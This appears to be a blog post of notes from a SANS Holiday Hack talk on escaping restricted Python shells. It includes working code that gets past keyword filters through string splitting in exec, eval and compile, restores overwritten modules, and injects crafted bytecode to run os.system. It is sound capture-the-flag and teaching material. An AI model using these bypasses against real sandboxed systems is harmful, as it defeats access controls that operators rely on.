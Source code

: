 ```yaml
---
title: "Notes on Escaping Python Shells"
date: 2019-01-19T22:29:43-05:00
draft: false
toc: true
comments: true
categories:
- Python
---
```


During the [SANS Holiday Hack Challenge 2018]({{< relref "/post/2019-01-15-sans-holiday-hack-2018" >}} "SANS Holiday Hack Challenge 2018"), I viewed a talk by [Mark Baggett](https://twitter.com/markbaggett) about escaping Python shells. These are my notes.

* Talk: https://www.youtube.com/watch?v=ZVx2Sxl3B9c
* Code: https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499

It's part of [SANS SEC573: Automating Information Security with Python](https://www.sans.org/course/automating-information-security-with-python) which looks interesting. Although, I am Go fanatic and will probably will never be able to afford to course anyways. Creating a Go version of the course sounds fun.

<!--more-->

# Overwrite/Reload Python Modules
Overwrite them in memory:

``` python
import sys
sys.modules['os'].system = lamba *x,**y:"STOP HACKING"
del sys

# now if I want to run it
import os
os.system("ls")
# I get stop hacking
'STOP HACKING'
```

To defeat, we can reload them in Python 3 with `importlib`

``` python
import importlib
importlib.reload(os)
```

# Python as Child Process
Python interpreter is launched as a child process and then keywords are filtered with `readfunc()`.

## exec
Executes Python code that does not return a result. Break the statements into pieces and run them.

``` python
exec("imp" + "ort os")
os.system("id")
```

## eval
Executes Python code that returns a result.

``` python
os = eval('__im' + 'port__("os")')  # __import__("os")
os.system("id")
```

## compile
Takes turns a string into bytecode.

``` python
code = compile("im" + "port os", "", "single") # single means only compile this single line.

# now we need to execute it
# make a function that does nothing
def a():
    return

# and overwrite it
a.__code__ = code

# execute it
a()

# now os should be imported
os.system("id")
```

## exec, eval, import and compile are blocked
Go to a different Python interpreter, make the function you want

``` python
def bypass():
    import os
    print(os.system("id"))
```

Paste `make_object.py` from https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499#file-make_object-py this function into the 2nd interpreter:

``` python
import sys
def makeobject(afunction):
   print("Generating a function for version {}.{} (same version as this machine)".format(sys.version_info.major, sys.version_info.minor))
   newstr = ""
   newstr += "def a():\n"
   newstr += "   return\n\n"
   if sys.version_info.major == 2:
       co = afunction.__code__
       if sys.version_info.minor not in [5,6,7]:
           print("This code has not been tested on this version of python.  It may not work.")
       newstr += "a.__code__ = type(a.__code__)({0},{1},{2},{3},'{4}',{5},{6},{7},'{8}','{9}',{10},'{11}')".format( co.co_argcount, co.co_nlocals, co.co_stacksize, co.co_flags, co.co_code.encode("string_escape"),co.co_consts, co.co_names, co.co_varnames, co.co_filename, str(co.co_name), co.co_firstlineno, co.co_lnotab.encode("string_escape"))
   elif sys.version_info.major == 3:
       co = afunction.__code__
       if sys.version_info.minor not in [5]:
           print("This code has not been tested on this version of python.  It may not work.")
       newstr += "a.__code__ = type(a.__code__)({0},{1},{2},{3},{4},{5},{6},{7},{8},'{9}','{10}',{11},{12})".format( co.co_argcount, co.co_kwonlyargcount, co.co_nlocals, co.co_stacksize, co.co_flags, co.co_code,co.co_consts, co.co_names, co.co_varnames, co.co_filename, str(co.co_name), co.co_firstlineno, co.co_lnotab)
   else:
       print("This version of python is not tested and may not work")
   print(newstr)
```

Now call `makeobject(bypass)` to get the bytecode for it. It gives a string that can be copy/pasted into the remote system. It will create a function called `a` and then bytecode for it that does what `bypass` does. Might need to break the keywords into a string again (e.g. `"import"` to `"im" + "port"`).

Unsurprisingly, the challenge used this method. See my solution to [Python Escape from LA]({{< relref "/post/2019-01-15-sans-holiday-hack-2018/index.markdown#python-escape-from-la" >}} "Python Escape from LA").